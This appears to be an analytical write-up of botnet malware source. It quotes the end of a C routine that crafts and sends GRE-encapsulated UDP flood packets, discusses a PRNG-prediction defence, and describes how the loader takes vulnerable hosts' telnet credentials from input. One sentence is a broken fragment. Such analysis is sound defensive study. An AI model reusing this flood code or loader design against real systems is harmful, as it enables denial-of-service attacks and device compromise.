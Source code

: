 ```c

            iph->check = 0;
            iph->check = checksum_generic((uint16_t *)iph, sizeof (struct iphdr));

            greiph->check = 0;
            greiph->check = checksum_generic((uint16_t *)greiph, sizeof (struct iphdr));

            udph->check = 0;
            udph->check = checksum_tcpudp(greiph, udph, udph->len, sizeof (struct udphdr) + data_len);

            targs[i].sock_addr.sin_family = AF_INET;
            targs[i].sock_addr.sin_addr.s_addr = iph->daddr;
            targs[i].sock_addr.sin_port = 0;
            sendto(fd, pkt, sizeof (struct iphdr) + sizeof (struct grehdr) + sizeof (struct iphdr) + sizeof (struct udphdr) + data_len, MSG_NOSIGNAL, (struct sockaddr *)&targs[i].sock_addr, sizeof (struct sockaddr_in));
        }

#ifdef DEBUG
        if (errno != 0)
            printf("errno = %d\n", errno);
        break;
#endif
    }
}
```

In order to defend against this attack, a function can be implemented which extracts the attackers PRNG state from attack packets. If one single attack packet reveals enough information to reconstruct the PRNG state, all subsequent attacks are known ahead of time, and can be blocked at the ingress firewall. If multiple attack packets are needed for that, the defender has to have a way of determining which attack packets come from the same attacking node.
the first few attack packets, then (knowing ahead of time their content), blocking subsequent attack packets at the ingress firewall, or even earlier, by an ISP. 

The two defense mechanisms, however, only work if there is one single scanning/attacking node. If there are several hundreds/thousands of attacking nodes, it will be difficult to determine which packet came from which scanning/attacking node (each node has its individual random number sequence).

## 4. Explain the loader’s high-level flow using  loader/src/*.c  
>(e.g.,  connection.c ,  server.c ,  binary.c ).  
>a) What staging steps are implied?

In the initialization step, the server creates one timeout thread and a number of worker threads, one for each processor core the host hardware is providing. Thereafter it reads from stdin information about vulnerable nodes in the form `<IPV4:port> <user>:<password> <arch>`, providing the nodes 
- IP address and telnet port number
- username and password for logging in via telnet (both fields can be empty)
- a string identifying the nodes hardware architecture (optional)
